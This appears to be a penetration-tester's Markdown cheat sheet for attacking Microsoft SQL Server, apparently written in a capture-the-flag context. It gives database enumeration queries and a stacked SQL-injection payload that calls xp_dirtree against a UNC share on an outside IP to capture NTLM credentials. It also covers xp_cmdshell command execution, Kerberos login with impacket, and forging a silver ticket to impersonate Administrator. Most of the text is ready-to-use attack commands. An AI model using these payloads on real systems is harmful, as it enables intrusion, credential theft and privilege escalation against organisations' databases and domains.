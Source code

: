 # MSSQL
Get databases:
```
select name from sys.databases;
```
Get tables from the given database:
```
select TABLE_NAME from <DB-name>.INFORMATION_SCHEMA.TABLES;
```
Dump data from the table
```
select * from <db-name>..<table-name>;
```
```
select * from <db-name>.dbo.<table-name>;
```

# Command Injection
## `xp_cmdshell`

## Stacked Queries
```
500'; EXEC xp_dirtree '\\10.10.10.10\sharename\file';-- -
```



# `sqsh`

# Command Injection
```
xp_cmdshell "whoami"
go
```
If it doesn't work
```
enable xp_cmdshell
```

## Authenticate with Kerberos
- (Include Kerberos TGT - it is explained in `Active Directory.md`)
- Create TGT
```
impacket-gettgt domain.local/username:password
```
- Export TGT
```
export KRB5CCNAME=outputfilename.cache
```
- Verify it
```
klist
```
- Login MS SQL service
```
impacket-mssqlclient dc01.domain.local -k
```

## Creating Silver Ticket for Authentication
- Get user SID for gaining Domain SID
- You can get it via ldap (check ippsec Scrambled 21:00)
```
impacket-getpac adminsitrator domain.local/username:password
```
- Create ticket
```
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -user-id 500 Administrator -nthash <lowercase-ntlm-hash> -domain-sid <S-1-5-...> -domain scrm.local
```
- `500`: Administrator ID


- Add ticket
```
export KRB5CCNAME=Administrator.ccache
```
- Verify
```
klist
```
